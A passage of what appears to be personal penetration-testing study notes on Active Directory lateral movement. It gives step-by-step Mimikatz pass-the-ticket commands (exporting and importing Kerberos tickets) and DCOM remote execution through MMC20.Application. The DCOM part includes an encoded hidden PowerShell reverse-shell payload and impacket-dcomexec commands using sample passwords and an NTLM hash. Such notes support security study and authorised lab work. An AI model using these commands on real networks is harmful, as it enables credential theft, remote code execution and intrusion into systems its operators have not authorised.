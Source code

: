 > Prerequisites: Tickets must be cached already

Attack:
1) Mimikatz setup
	1) `privilege::debug`
2) Mimikatz `sekurlsa::tickets /export`
3) Filter for TGT/TGS tickets with `dir *.kirbi`
4) Mimikatz (name of ticket corresponding to desired service) 
	1) Imports ticket (ideally a ticket from another user than your own)
	2) `kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi`
5) `klist` to verify ticket import
6) Verify access
	1) E.g., PowerShell: `ls \\web04\backup`

---
## DCOM
> Prerequisites: User must be local admin on the target machine. **Remote DCOM Access** via group membership (Administrators, Distributed COM Users, or a specific application group with DCOM permissions). DCOM requires RPC (135/TCP) and high-range dynamic ports.

| Object Name        | Description                     |
| ------------------ | ------------------------------- |
| MMC20.Application  | Executes via MMC COM object     |
| ShellWindows       | Spawns Explorer shell instances |
| ShellBrowserWindow | Similar to ShellWindows         |
| Excel.Application  | Executes through Excel COM      |

Attack:
1) Instantiate a remote MMC 2.0 application; Modify target IP (last argument): `$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))`
2) Start listener
3) Execute shell commands
	1) Simple RCE
		1) `$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")`
	2) Reverse Shell RCE
		2) Replace the base64 (UTF-16) encoded PowerShell command below
		3) `$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")`

```bash
# Using MMC20.Application to get an interactive shell
impacket-dcomexec corp/user1:Password123@10.10.10.5 -object MMC20.Application
# With NTLM hash (Pass-the-Hash)
impacket-dcomexec corp/user1@10.10.10.5 -hashes :aac3b435b51404eeaad3b435b51404ee:bb36cf7a9393879f6b4e7e7a7d327d23 -object MMC20.Application
# Executing a single command instead of an interactive shell
impacket-dcomexec corp/user1:Password123@10.10.10.5 -object MMC20.Application -exec "whoami"
```

---

10 Common AD PrivEsc:
https://youtu.be/xowytiyooBk?si=BQ0C-htYE8qr6KgK
